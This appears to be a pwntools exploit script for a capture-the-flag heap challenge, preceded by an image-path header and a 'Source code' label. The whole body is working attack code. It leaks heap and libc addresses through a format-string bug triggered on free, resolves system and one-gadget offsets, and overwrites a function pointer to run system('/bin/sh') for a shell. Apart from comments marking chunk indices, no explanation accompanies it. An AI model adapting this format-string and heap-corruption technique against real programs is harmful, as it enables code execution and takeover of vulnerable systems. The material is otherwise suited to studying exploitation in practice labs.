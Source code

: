 ```python
leak = lambda name,addr :log.success(name+":"+hex(addr))
elf = ELF("./chall",checksec=False)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
one = [0x45226,0x4527a,0xf03a4,0xf1247]
def add(size,content):
    sla(">> ",str(1))
    sla("size: ",str(size))
    sa("content: ",content)
   
def free(index):
    sla(">> ",str(2))
    sla("index: ",str(index))

add(0x30,'a'*0x10) # 0
add(0x10,'a'*0x10) # 1
free(0)
free(1)
add(0x30,'a'*0x10) # 0
pd = '%8$p'.ljust(8,'\x00') + '\x30'
add(0x10,pd)       # 3
free(0) # printf
gdb.attach(p,'b *$rebase(0x0E15)\nc')
heap_addr = int(p.recv(14).ljust(8,'\x00'),16) - 0x10
free(3)
pd = '%17$p'.ljust(8,'\x00') + '\x30'
add(0x10,pd) # 4
free(0)
libc.address = int(p.recv(14).ljust(8,'\x00'),16) - 240 - libc.sym['__libc_start_main']
sys_addr = libc.sym['system']
og = libc.address + one[0]
success("heap_addr = " + hex(heap_addr))
success("sys_addr = " + hex(sys_addr))
success("libc.address = " + hex(libc.address))
free(4)
add(0x10,'/bin/sh\x00'+p64(heap_addr+0xd0)) # 0
add(0x40,p64(sys_addr))
free(0)
ti()
```

